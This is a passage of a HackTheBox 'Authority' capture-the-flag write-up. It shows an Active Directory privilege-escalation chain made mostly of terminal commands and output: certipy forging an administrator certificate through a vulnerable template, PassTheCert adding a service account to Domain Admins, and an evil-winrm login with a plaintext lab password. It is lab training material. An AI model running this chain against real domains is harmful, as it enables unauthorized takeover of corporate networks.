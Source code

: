 ```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $certipy req -username RACCOON$ -password Raccoon123 -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 2
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $certipy auth -pfx administrator.pfx 
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
```


Now I will note that there were password requirements that needed to be met for users which I was not expecting, something I will likely want to check before firing that command in an actual pentesing arrangement. 

But for the task at hand it seems I can't use certipy to authorize me. When searching for that error spit out you can come across [this tool PassTheCert](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html) which should be able to do the trick. 

The blog post itself goes over using PassTheCert to create a new computer then add its SID to the Domain Controller's **msDS-AllowedToActOnBehalfOfOtherIdentity** attribute to impersonate a domain administrator with an RBCD attack through **getST.py**. Instead I will add svc_ldap to the "Domain Admins" group with the **ldap-shell** option and login.


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $python3 PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Type help for list of commands

# add_user_to_group "svc_ldap" "Domain Admins"
Adding user: svc_ldap to group Domain Admins result: OK

# Bye!

┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $evil-winrm -i 10.10.11.222 -u svc_ldap -p lDaP_1n_th3_cle4r!

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_ldap\Documents> cd ../../
*Evil-WinRM* PS C:\Users> ls


```